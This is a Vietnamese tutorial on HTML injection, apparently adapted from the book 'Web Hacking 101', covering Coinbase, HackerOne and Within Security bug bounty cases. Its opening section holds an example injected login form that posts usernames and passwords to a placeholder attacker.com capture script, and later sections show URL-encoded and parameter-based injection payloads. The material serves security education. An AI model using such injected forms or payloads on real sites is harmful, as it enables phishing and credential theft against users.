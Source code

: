 ## Description
* Hypertext Markup Language (HTML) injection đôi khi cũng hơi ảo ảo =)). Đây thực sự là một cuộc tấn công được thực hiện bởi một website cho phép người dùng inject HTML vào các trang web của mình bằng cái kiểu mà không giống người dùng bình thường nhập dữ liệu. Nói cách khác, HTML Injection được gây ra bởi việc nhận HTML. Thông thường, thông qua một số hình thức nhập, sau đó được hiện thị dưới dạng input form trên trang web. Điều này khác biệt với Javascript, VBScript, ..., có thể dẫn đến Cross Site Scripting Attacks. Vì HTML là ngôn ngữ được sử dụng để xác định cấu trúc của một website, nếu Attacker có thể HTML Injection, về cơ bản chúng có thể thay đổi giao diện của trình duyệt và của trang web đó. Đôi khi, điều này có thể dẫn đến thay đổi hoàn toàn giao diện của trang hoặc trong các trường hợp khác, tạo HTML forms để lừa người dùng với hy vọng họ sử dụng form để gửi thông tin nhạy cảm (Có thể được gọi là lừa đảo). Ví dụ: Nếu bạn có thể HTML Injection, bạn có thể thêm thẻ <form> vào trang, yêu cầu người dùng nhập lại tên người dùng và mật khẩu của họ như:
    ```html
    <form method='POST' action='http://attacker.com/capture.php' id="login-form">
        <input type='text' name='username' value=''>
        <input type='password' name='password' value=''>
        <input type='submit' value='submit'>
    </form>
     ```
 * Tuy nhiên, khi gửi form này, thông tin thực sự sẽ được gửi đến `http://attacker.com/` thông qua thuộc tính `action`, nó sẽ gửi thông tin đến trang web của Attacker.
## Examples
### 1. Coinbase Comments
#### Description
   * Đối với lỗ hổng này, reporter đã xác định rằng Coinbase đang giải mã các giá trị được mã hóa URI khi render văn bản. Thông thường các kí tự trong URI không được bảo vệ. Khi một ký tự được mã hóa URI, nó được chuyển đổi thành giá trị byte trong bảng mã ASCII và trước dấu %. Vì vậy, / trở thành %2F, & trở thành %26. Bên cạnh đó, ASCII là một loại mã phổ biến nhất trên internet cho đến khi UTF-8 xuất hiện. Chúng ta cùng đến một ví dụ về loại tấn công này nhé.
       ```html
        <h1>This is a test</h1>
       ```
    * Coinbase sẽ hiển thị dưới dạng văn bản thuần túy, chính xác như bạn thấy ở bên trên. Nhưng người dùng gửi đi những ký tự được mã hóa thì sẽ trở thành 
        ```html
        %3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
        ```
    * Coinbase sẽ giải mã chuỗi đó và hiển thị dưới dạng 
                  <h1>This is a test</h1>
    * Bạn đọc có thể xem video này để hiểu rõ hơn về kiểu tấn công này.
      > [HTML Injection in apps user review](https://www.dropbox.com/s/360cytluyiw2ym9/HTMLI.mp4?dl=0)
    * Khi bạn kiểm tra một trang web, hãy kiểm tra xem nó được xử lý các loại đầu vào khác nhau nào, bao gồm văn bản thuần túy và văn bản được mã hóa. Hãy hết sức cảnh giác với các trang web chấp nhận các giá trị được mã hóa URI và hiển thị được decoded values. Bạn đọc có thể sử dụng công cụ [CyberChef](https://gchq.github.io/CyberChef) để mã hóa và giải mã URI. Tôi nghĩ rằng bạn sẽ rất thích nó đấy ^^.
### 2. HackerOne Unintended HTML Inclusion
#### Description:
   * Về vấn đề này, chúng ta sẽ cho một ví dụ luôn nhé.
     ```html
     [test](http://www.torontowebsitedeveloper.com "test ismap="yes"')
     ```
     Trình soạn thảo HTML sẽ lấy đoạn ở trên và biến thành 
     ```html
     <a title="test ismap="yes"' href="http://www.torontowebsitedeveloper.com">test</a>
      ```
     Nói cách khác, code sẽ xem xét đệ quy chuỗi nào nên là chuỗi tiêu đề và sử dụng first single hoặc double quote. Tôi đã có thể đưa 1 loạt HTML vào thẻ `<a>`. Đây có vẻ là một lỗi khá nghiêm trọng đúng không :D.
### 3. Within Security Content Spoofing
#### Description:
   * Mặc dù về mặt spoofing nội dung về mặt kỹ thuật là một loại lỗ hổng khác với HTML Injection, tôi đã đưa nó vào đây vì attacker có thể hiển thị nội dung mà attacker muốn chọn. Inside Security được xây dựng trên nền tảng Wordpress bao gồm đường dẫn đăng nhập `withinsecurity.com/wp-login.php`. Một hacker nhận thấy rằng trong quá trình đăng nhập, nếu xảy ra lỗi thì Inside Security sẽ hiển thị access_denied, cũng tương ứng với tham số lỗi trong URL: 
     ```
     https://withinsecurity.com/wp-login.php?error=access_denied
     ```
     Nhận thấy điều này, attacker đã thử sửa đổi tham số lỗi và thấy rằng bất kỳ giá trị nào được nhập vào đều được trang web hiển thị như một phần của thông báo lỗi được thông báo cho người dùng. Dưới đây, ví dụ được sử dụng: 
     ```
     https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
     ```
      ![](https://images.viblo.asia/ddb80975-2933-4e2e-a421-a4eb11d0cb45.png)
    * Kết luận ở đây: Ta thấy tham số trong URL được hiển thị trên trang. Một thử nghiệm đơn giản thay đổi tham số access_denied có thể đã tạo ra một lỗ hổng trong trường hợp này.
    * Chú ý: Theo dõi các tham số URL đang được thông qua và hiển thị dưới dạng nội dung của trang. Chúng có thể tạo cơ hội cho attacker lừa nạn nhân thực hiện một số hành động nguy hiểm. Đôi khi, điều này dẫn đến các kiểu tấn công Cross Site Scripting hoặc là giả mạo nội dung và HTML Injection.
### Summary
   * HTML Injection trình bày một lỗ hổng cho các trang web và nhà phát triển vì nó có thể được sử dụng để lừa đảo người dùng và lừa họ gửi thông tin nhạy cảm đến hoặc truy cập các trang web độc hại. 
   * Khám phá các loại lỗ hỏng này không phải luôn luôn là gửi HTML đơn giản mà còn phải khám phá cách mà một trang web có thể hiển thị văn bản được nhập của bạn, như các ký tự được mã hóa URI. Và mặc dù không hoàn toàn giống như nội dung HTML, việc giả mạo nội dung cũng tượng tự ở chỗ nó liên quan đến đầu vào được hiển thị lên cho nạn nhân trong trang HTML. Attacker luôn có cơ hội để loại bỏ tham số URL và hiển thị chúng trên trang web. 

-----

 >Nguồn: Web Hacking 101, biên tập và dịch lại.